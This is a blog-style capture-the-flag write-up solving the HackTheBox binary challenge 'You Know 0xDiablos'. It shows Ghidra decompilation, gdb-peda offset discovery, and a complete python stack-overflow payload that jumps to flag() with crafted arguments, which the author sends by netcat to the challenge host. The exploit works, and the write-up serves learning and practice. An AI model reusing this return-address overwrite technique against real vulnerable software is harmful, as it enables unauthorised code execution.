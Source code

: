 ```yaml
---
title: HackTheBox - Pwn - You Know 0xDiablos
date: 2022-03-01 12:00:00 +/- 0000
categories: [HackTheBox,Pwn,BinaryExploit]
author: Connor Weeks-Pearson
tags: [pwn,0xdiablos]
image: /assets/img/Icons/pwn/pwn.png
---
```


I've never done a binary exploit here on HTB, the first exposure i had to them was at university yeara ago, but it's always something i've found interesting, so here goes! I will be using google for help because how else am i  going to learn!

Description: I missed my flag

***IP: 139.59.183.98:32124***
***Files: 1 - vuln***

---

## Analysis

First thing lets discover the type of file `vuln` is:

<pre>
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped

</pre>

`vuln` is an ELF 32-bit executable. Executing the file, the programme outputs some  text and then waits for a reply. It then redirects the input to the output.

<pre>┌──(kali㉿kali)-[~/Desktop]
└─$ ./vuln
You know who are 0xDiablos: 
test 
test
</pre>

Now it's time to use ghidra!

---

## Ghidra

Having never used ghidra before this was very fun! After loading the file into Ghidra,  i had a look at the different functions. Of these, 3 stood out: vuln, flag and main. 

<div style="page-break-after: always;"></div>

### vuln()

```c++
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```

So what we can see here is there is an allocated 180 character array, that will hold the input using `gets` and then print it. After some googling, gets was replaced with fgets due to buffer overflow attacks.

### flag()

```c++
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function is a bit different. A char array size of 64 is allocated as `local_50`, reads the file "flag.txt" and saves it to `local_50`. If function params are the same as `0x21524111` and `0x3f212ff3`, it will print the content of `local_50`.

The assembly code for 0x21524111 is `0xdeadbeef` and 0x3f212ff3 is `0xc0ded00d`.

---

## Exploiting
I will be using gdp-peda to exploit the `gets` function using a buffer overflow to jump into `flag()` to get the flag. Lets load the file, and start. We should hit an automatic breakpoint.

```nasm
gdb-peda$ start
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xf7fb1a28 --> 0xffffd1ec --> 0xffffd3c1 ("COLORFGBG=15;0")
EBX: 0x0 
ECX: 0xffffd140 --> 0x1 
EDX: 0xffffd174 --> 0x0 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0xffffd128 --> 0x0 
ESP: 0xffffd120 --> 0xffffd140 --> 0x1 
EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)                                                                           
[-------------------------------------code-------------------------------------]                                                                          
   0x80492bc <main+11>: mov    ebp,esp
   0x80492be <main+13>: push   ebx
   0x80492bf <main+14>: push   ecx
=> 0x80492c0 <main+15>: sub    esp,0x10
   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
   0x80492c8 <main+23>: add    ebx,0x2d38
   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
[------------------------------------stack-------------------------------------]                                                                          
0000| 0xffffd120 --> 0xffffd140 --> 0x1 
0004| 0xffffd124 --> 0x0 
0008| 0xffffd128 --> 0x0 
0012| 0xffffd12c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd130 --> 0xf7faf000 --> 0x1e9d6c 
0020| 0xffffd134 --> 0xf7faf000 --> 0x1e9d6c 
0024| 0xffffd138 --> 0x0 
0028| 0xffffd13c --> 0xf7de3fd6 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]                                                                          
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x080492c0 in main ()
```

Knowing there is a 180 character buffer, i created a file containing 200 characters and saved it as in.txt, which will be used to discover the EIP offset.

```nasm
db-peda$ pattern_create 200 in.txt
Writing pattern of 200 chars to filename "in.txt"
gdb-peda$ r < in.txt
Starting program: /home/kali/Desktop/vuln < in.txt
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                                          
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7faf000 --> 0x1e9d6c 
EDI: 0xf7faf000 --> 0x1e9d6c 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffd110 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
...
```

We can see the EIP address is `0x41417741`, so lets find the offset, so that we can control the EIP.

```nasm
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now lets get the address of `flag()`

```nasm
gdb-peda$ disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
   0x080491e3 <+1>:     mov    ebp,esp
   0x080491e5 <+3>:     push   ebx
   0x080491e6 <+4>:     sub    esp,0x54
   0x080491e9 <+7>:     call   0x8049120 <__x86.get_pc_thunk.bx>
...
```

The address is 0x080491e2, which will translate to `\xe2\x91\x04\x08`

## Python Buffer Overflow

I will be using python to try and jump into the function `flag()`

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ python -c "print('A'*188 + '\xe2\x91\x04\x08')" | ./vuln           139 ⨯
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```



It successfully jumped into the code function. Now i know i need to pass the args into the function, and so some googling commenced. I read about `DUMB` addresses, in which the arguements called need to be supplied in reverse order. These parameters  are 0xdeadbeef and 0xc0ded00d, which when reversed turns into:

`\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

This turns the entire python script into:

`python -c "print('A'*188 + '\xe2\x91\x04\x08' + 'AAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | > exploit.txt`

## Deploying the Exploit
All that is needed now is to deploy the exploit to the docker server using netcat. This was done by the following:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ cat exploit.txt | nc 139.59.183.98 32124
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�DUMBﾭ�
HTB{flag}  
```
